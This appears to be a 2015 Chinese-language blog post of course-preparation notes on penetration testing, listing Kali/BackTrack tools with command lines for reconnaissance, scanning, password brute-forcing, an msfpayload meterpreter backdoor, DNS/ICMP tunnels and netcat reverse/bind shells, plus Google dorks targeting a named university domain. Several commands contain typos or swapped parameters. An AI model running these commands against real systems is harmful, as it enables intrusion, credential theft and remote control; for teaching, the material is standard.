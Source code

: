 ```yaml
---
author: wangguohao
comments: true
date: 2015-01-01 12:23:00+00:00
layout: post
slug: '%e5%ae%89%e5%85%a8%e8%af%be%e7%a8%8b%e7%9a%84%e5%a4%87%e8%af%be'
title: 安全课程的备课
wordpress_id: 575
categories:
- 计算机
tags:
- 安全
---
```


The first course will end with a video，准备最后一段课程的视频的录制，课程的设计的思路是：借助一下主流的工具，来介绍一下常见的网络安全的比较感性的原理（对细微本身讲的较少）。大体课程内容设计如下：


### Linux安全测试发行版介绍：


BackTrack:(Although the project was update to kali, many people also like using BT)
Probably the most widely known pen-test distro out there and one of the oldest distro still being actively developed. There is a thumb-drive and Live DVD version, plus the ability to do a full install in your hard-drive. The distribution is based on Ubuntu with custom packages that gets updated on a regular basis.

kali：
From the creators of BackTrack comes Kali Linux, the most advanced and versatile penetration testing distribution ever created. We have a whole set of amazing features lined up in our security distribution, geared at streamlining the penetration testing experience.

Backbox Linux:
Another Ubuntu based distro but uses XFCE as its window manager and relies on its own repo to constantly keep its tools updated.

Pentoo: A livecd based on Gentoo and XFCE. Also available as an overlay for existing Gentoo installations. Has the ability to crack passwords using GPGPU out of the box.

目的是介绍主要的工具集。


### 踩点技术


传统的本地dns探测工具，多数依赖于字典文件：

    dnsenum.pl -f dns_list.txt --dnserver 8.8.8.8 cisco.com -o cisco.list

    dnsmap cisco.com -w wordlist.txt -c cisco.csv

路由信息收集工具，一个传统的udp实现，一个现代一点的利用tcp实现，可以穿越防火墙。
paratrace,一种新的、隐形的 traceroute,可使用有状态的过滤器。
traceroute:传统的工具
tcptraceroute ：稍微新一点，利用tcp的工具。

搜索引擎的技巧 http://en.wikipedia.org/wiki/Google_hacking
filetype:xls site:jlxy.nju.edu.cn
密码 site:jlxy.nju.edu.cn
密码 site:jlxy.nju.edu.cn filetype:doc
site:jlxy.nju.edu.cn intext:admin

自动化，综合的信息收集平台maltego
1：domain
2：dns
3：whois information
4：network block
5：ip address
6：E-mail


### 扫描技术

发现主机
    arping -c 2 192.168.1.1

    fping -s -r 1 192.168.1.1 192.168.1.254

    hping3 -c 2 192.168.1.1

    #hping3
    hping>hping send {ip(addr=192.168.1.1)+icmp(type=8,code=0)}

    nbtscan 192.168.1.1-254

操作系统指纹识别

主动：nmap -O

被动：p0f

端口扫描
autoscan

netifera

scanrand:一个非常快速、无状态的 TCP 端口扫描器和 traceroute 工具

服务探测

    cd /pentest/enumeration/www/httprint/linux/
    httprint -h 192.168.1.1 -s singnature.txt

VPN探测

    ike-scan -M -v 192.168.1.1

    sslscan 192.168.1.1




### 漏洞发现


Cisco tools

cisco auditing tool


    ./CAT -h 192.182.1.1 -w lists/community -a lists/passwords -I


Cisco passwd scanner


    ./cisco 10.10.10 3 -t 4 -C 10


Snmp tools


    cd /pentest/enumeration/snmp/admsnmp
    ./ADMsnmp 192.168.1.1 -wordf wordlist.list


如果你知道snmp的community， 你可以使用这个工具收集信息。


    cd  /pentest/enumeration/snmp/snmpenum/
    ./snmpenum 192.168.1.1 private windows.txt


针对web的安全工具
Burp suite

Nikto


    ./nikto.pl -h 192.168.1.1 -C -p 80 T3487b -t 3 -D \V  -o webtest -F htm


W3af

这个waf的探测工具：WAFW00F


    cd /pentest/web/waffit/
    ./wafw00f http://....


介绍两个成熟的框架：openvas，nessus


### 集成化的工具包
MSF


    msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.150 LPORT=4444 X > backdoor.exe

    msfconsole
    use exploit/multi/hander
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LPORT 192.168.1.150
    set LHOST 4444


### 局域网安全


####Layer 2:
CDP(cisco discovery protocols)
mac flood

####Layer 3:
dhcp
tcp syn flood

结合一点点嗅探技术：
dsniff 包由 Dug Song 编写,已经发布几年了,是一组强大的网络审核工具。其中有一个简洁的小工具 arpspoof,可用于向 ARP 缓存注入虚假信息。该工具可以创建 Gratuitous ARP 应答,应答数据包中的源 IP 是用户打算伪装的 IP 地址,而目标 IP 则是所要嗅探的目标计算机。


### 密码破解


####在线的：以破解cisco的路由器，和html表单的例子。
ncrack -U pass -v -P pass telnet://192.168.1.1
ncrack -U pass -v -P pass http://192.168.1.1

####Web 表单

####离线的：无线的密码破解是离线的


### 维持访问
基本都是两台主机，其中一台替另一台通过某些服务对流量进行封装中继。

####Dns 隧道
Server:dns2tcpd
    ./dns2tcpd -F -d 1 -f dns2tcpd.conf

Client:
    ./dns2tcpc  -z  domain.org


配置文件：

    Domain=domain.org
    Rescoure = ssh
    Local_port = 2222
    Debug = 1


####icmp 隧道
Server:
    ./ptunnel

Client:
    ./ptunnel -p tun.ser_ip -lp 2222 -da ture.ip  -dp 22

####代理服务器
netcat
Windows:
    nc.exe -d -L -p 1234 -e cmd.exe

Remote:
    nc -l -p 1234

locale:
    nc -d remore port -e cmd.exe

Nc realy:（利用脚本实现），就是一种重定向，指定的数据流转发，还可以把传输的信息dump一次。

    #/bin/bash
    nc -o output.file ip_addr port

    nc -l -p 23 -e script.sh
